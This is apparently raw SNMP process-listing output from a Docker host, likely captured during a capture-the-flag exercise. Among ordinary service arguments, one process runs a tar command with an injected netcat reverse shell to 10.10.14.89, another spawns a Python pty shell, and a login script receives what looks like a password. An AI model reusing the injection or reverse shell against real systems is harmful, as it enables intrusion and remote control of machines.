 ```bash
HOST-RESOURCES-MIB::hrSWRunParameters.913 = STRING: "/usr/bin/networkd-dispatcher --run-startup-triggers"
HOST-RESOURCES-MIB::hrSWRunParameters.914 = STRING: "--no-debug"
HOST-RESOURCES-MIB::hrSWRunParameters.915 = STRING: "-n -iNONE"
HOST-RESOURCES-MIB::hrSWRunParameters.927 = ""
HOST-RESOURCES-MIB::hrSWRunParameters.1200 = STRING: "-f -P"
HOST-RESOURCES-MIB::hrSWRunParameters.1208 = STRING: "-LOw -u Debian-snmp -g Debian-snmp -I -smux mteTrigger mteTriggerConf -f"
HOST-RESOURCES-MIB::hrSWRunParameters.1221 = ""
HOST-RESOURCES-MIB::hrSWRunParameters.1242 = STRING: "-o -p -- \\u --noclear tty1 linux"
HOST-RESOURCES-MIB::hrSWRunParameters.1243 = ""
HOST-RESOURCES-MIB::hrSWRunParameters.1254 = STRING: "-k start"
HOST-RESOURCES-MIB::hrSWRunParameters.1340 = STRING: "-H fd:// --containerd=/run/containerd/containerd.sock"
HOST-RESOURCES-MIB::hrSWRunParameters.1691 = STRING: "/usr/local/bin/login.sh"
HOST-RESOURCES-MIB::hrSWRunParameters.1742 = STRING: "-proto tcp -host-ip 172.22.0.1 -host-port 5432 -container-ip 172.22.0.4 -container-port 5432"
HOST-RESOURCES-MIB::hrSWRunParameters.1755 = STRING: "-namespace moby -id 96e44c5692920491cdb954f3d352b3532a88425979cd48b3959b63bfec98a6f4 -address /run/containerd/containerd.sock"
HOST-RESOURCES-MIB::hrSWRunParameters.1781 = ""
HOST-RESOURCES-MIB::hrSWRunParameters.1838 = ""
HOST-RESOURCES-MIB::hrSWRunParameters.1839 = ""
HOST-RESOURCES-MIB::hrSWRunParameters.1840 = ""
HOST-RESOURCES-MIB::hrSWRunParameters.1841 = ""
HOST-RESOURCES-MIB::hrSWRunParameters.1842 = ""
HOST-RESOURCES-MIB::hrSWRunParameters.1843 = ""
HOST-RESOURCES-MIB::hrSWRunParameters.1849 = STRING: "-proto tcp -host-ip 172.22.0.1 -host-port 8000 -container-ip 172.22.0.3 -container-port 8000"
HOST-RESOURCES-MIB::hrSWRunParameters.1863 = STRING: "-namespace moby -id 556e8c834293dd86447407ed131913827ab286e6c16eb2629ef5567c3beec9ba -address /run/containerd/containerd.sock"
HOST-RESOURCES-MIB::hrSWRunParameters.1889 = STRING: "-m uvicorn app.main:app --reload --workers 2 --host 0.0.0.0 --port 8000"
HOST-RESOURCES-MIB::hrSWRunParameters.1958 = STRING: "-proto tcp -host-ip 172.22.0.1 -host-port 81 -container-ip 172.22.0.2 -container-port 80"
HOST-RESOURCES-MIB::hrSWRunParameters.1971 = STRING: "-namespace moby -id 9fe6db6386def9ee85a401e564be071bc55984fa0962d8748de5e8d6b1076a30 -address /run/containerd/containerd.sock"
HOST-RESOURCES-MIB::hrSWRunParameters.1993 = STRING: "main.py"
HOST-RESOURCES-MIB::hrSWRunParameters.2007 = STRING: "-c from multiprocessing.semaphore_tracker import main;main(4)"
HOST-RESOURCES-MIB::hrSWRunParameters.2008 = STRING: "-c from multiprocessing.spawn import spawn_main; spawn_main(tracker_fd=5, pipe_handle=7) --multiprocessing-fork"
HOST-RESOURCES-MIB::hrSWRunParameters.2092 = ""
HOST-RESOURCES-MIB::hrSWRunParameters.2110 = STRING: "/usr/local/bin/login.py kj23sadkj123as0-d213"
HOST-RESOURCES-MIB::hrSWRunParameters.26610 = ""
HOST-RESOURCES-MIB::hrSWRunParameters.26614 = ""
HOST-RESOURCES-MIB::hrSWRunParameters.91129 = ""
HOST-RESOURCES-MIB::hrSWRunParameters.91137 = ""
HOST-RESOURCES-MIB::hrSWRunParameters.91143 = STRING: "-c tar -c -f $(nc 10.10.14.89 9001 -e /bin/sh)/app_backkup.tar /app/ &"
HOST-RESOURCES-MIB::hrSWRunParameters.91144 = ""
HOST-RESOURCES-MIB::hrSWRunParameters.91148 = STRING: "-c import pty;pty.spawn(\"/bin/sh\")"
HOST-RESOURCES-MIB::hrSWRunParameters.91149 = ""
HOST-RESOURCES-MIB::hrSWRunParameters.91419 = ""
HOST-RESOURCES-MIB::hrSWRunParameters.91862 = ""
HOST-RESOURCES-MIB::hrSWRunParameters.91958 = STRING: "-k start"
HOST-RESOURCES-MIB::hrSWRunParameters.91959 = STRING: "-k start"
HOST-RESOURCES-MIB::hrSWRunParameters.92142 = ""
```

